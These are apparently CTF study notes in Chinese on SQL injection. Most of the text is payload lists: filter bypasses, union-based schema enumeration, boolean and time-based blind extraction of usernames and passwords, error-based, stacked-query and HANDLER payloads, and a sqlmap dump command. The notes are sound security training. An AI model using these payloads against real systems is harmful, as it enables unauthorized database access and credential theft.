

# CTF WEB SQL

漏洞原理：

脚本代码在实现代码与数据库进行数据通讯时，将定义的SQL语句进行执行查询数据时。其中的SQL语句能够通过参数传递的自定义的值来实现控制SQL语句，从而执行恶意的SQL语句，可以实现查询其他数据（如数据库中的敏感数据，管理员账号密码等）。

## Tips

### 常用绕过

- #、--+等注释符号

  %23

- 空格

  /**/

- =

  like

- or

  ||

- md5+sql绕过
- select * from 'admin' where password=md5($pass,true)
- 传入 password=ffifdyop 即可 原理如下
- 

### 回显位数不够

- 使用截断函数进行绕过

  例如group_concat(flag)为输出flag语句，可以使用substr，right，REVERSE，mid进行绕过

  mid举例MID( column_name ,start[,length])

  

## SQL-LABS

1. 先找到是数字型注入还是字符型注入 并判断闭合符

	id = 1 的回显是否和 id = 2-1 一样 -> 判断是何种注入

	?id=1' and 1=2--+ -> 判断‘是否为闭合符

	简单粗暴一点：就是直接看回显有没有报错

	找到之后还可以试试万能钥匙（以单引号为闭合符为例）

	?id = a' or true#

2. 找到回显位

	?id=-1' union select 1,2,3--+ -> 判断哪一位为回显位

3. 开始利用范式找到表名（例如第2位为回显位）（结果为fl4g）

	union select 1,database(),group_concat(**table_name**)from information_schema.tables where table_schema=**database()**--+

```sql
union select 1,database(),group_concat(table_name)from information_schema.tables where table_schema=database()--+
```


4. 再利用范式从表名中找到列名    （结果为fllllag）

   union select 1,database(),group_concat(**column_name**)from information_schema.columns where table_name=**'fl4g'**--+

   ```sql
   union select 1,database(),group_concat(column_name)from information_schema.columns where table_name='fl4g'--+
   ```

   

5. 最后利用select从列名中找到flag

   union select 1,database(),group_concat(fllllag)from fl4g--+

6. 跳过过滤：

   空格：转换为/**/

   union：双写为ununionion

#### 跨库注入

1. 先找到指定的库的名字

   ```sql
   union select schema_name,2,3 from information_schema.schmata
   ```

   假设获取的是库名是admin114514

2. 再同上利用范式获取表名即可 但是需要注意命令的差异

   ```sql
   union select 1,group_concat(table_name)from information_schema.tables where table_schema='admin114514'--+
   ```

   假设我们获取的表名是fl4g

3. 同上获取列名

   假设我们获取的列名是fllllag

4. 获取指定数据

   假设我们要获取的是列fllllag中的password数据

   ```sql
   union select 1,password from fl4g.fllllag--+
   ```

   

​	

#### sqlite注入

[sqlite注入的一点总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8627?u_atoken=100bccca0fa7b41dc93d4d361afe51c9&u_asig=1a0c39a017268046181531556e0035)

#### 布尔盲注

3. 布尔盲注（回显为you are in....）

   ```php
   ?id=1'and length((select database()))>9--+
   #大于号可以换成小于号或者等于号，主要是判断数据库的长度。lenfth()是获取当前数据库名的长度。如果数据库是haha那么length()就是4
   ?id=1'and ascii(substr((select database()),1,1))=115--+
   #substr("78909",1,1)=7 substr(a,b,c)a是要截取的字符串，b是截取的位置，c是截取的长度。布尔盲注我们都是长度为1因为我们要一个个判断字符。ascii()是将截取的字符转换成对应的ascii吗，这样我们可以很好确定数字根据数字找到对应的字符。
    
    
   ?id=1'and length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13--+
   判断所有表名字符长度。
   ?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99--+
   逐一判断表名
    
   ?id=1'and length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20--+
   判断所有字段名的长度
   ?id=1'and ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99--+
   逐一判断字段名。
    
    
   ?id=1' and length((select group_concat(username,password) from users))>109--+
   判断字段内容长度
   ?id=1' and ascii(substr((select group_concat(username,password) from users),1,1))>50--+
   逐一检测内容。
    
    
    
   ```
   
   时间盲注（无论输入什么东西回显都一样）
   
   ```php
   ?id=1' and if(1=1,sleep(5),1)--+
   判断参数构造。
   ?id=1'and if(length((select database()))>9,sleep(5),1)--+
   判断数据库名长度
    
   ?id=1'and if(ascii(substr((select database()),1,1))=115,sleep(5),1)--+
   逐一判断数据库字符
   ?id=1'and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))>13,sleep(5),1)--+
   判断所有表名长度
    
   ?id=1'and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>99,sleep(5),1)--+
   逐一判断表名
   ?id=1'and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))>20,sleep(5),1)--+
   判断所有字段名的长度
    
   ?id=1'and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))>99,sleep(5),1)--+
   逐一判断字段名。
   ?id=1' and if(length((select group_concat(username,password) from users))>109,sleep(5),1)--+
   判断字段内容长度
    
    
    
   ?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
   逐一检测内容。
   ```
   

#### 报错注入

- **当网站开启错误调试信息时可用此方法注入（不然只能盲注）**

假设一个网站传入为name = xxxx, pass = xxxx

1. 利用范式找到database中的所有表名（此处pass被注释）

   name=1'and updatexml(1,concat(0x7e,(**SELECT group_concat(table_name) from information_schema.tables where table_schema=database()))**,1)--+&pass=xxxxx --+

   熟悉吗？接下来加粗部分同SQL注入即可

#### sqlmap

python sqlmap.py -u "http://node4.anna.nssctf.cn:28366/?id=1" --dump


#### 偏移注入

- **在我们只能猜解出表名，而猜解不出我们所想要的字段名的情况下，直接爆最后的字段数据。**

  适用于Microsoft Access数据库（没有`information_schema`数据库）

#### 堆叠注入

只有再union select 被过滤时可以使用。

具体原理是在某些后端，堆叠激活可以使用，用分号;将两个sql查询语句隔开可以同时执行两个语句。

同时 在select被过滤时 我们可以使用HANDLER来代替。

先使用 show databases; show tables找到目标表名

具体使用方法：
HANDLER [表名] OPEN;语句打开一个表，使其可以使用后续HANDLER [表名] READ；该表对象未被其他会话共享，并且在会话调用HANDLER [表名] CLOSE;或会话终止之前不会关闭

这几个HANDLER语句需要用分号隔开并一起执行。

例如：当我们知道flag存放在FlagHere表中时，我们可以构造payload1’；

HANDLER FlagHere OPEN;

HANDLER FlagHere READ FIRST;　　

HANDLER FlagHere close;#

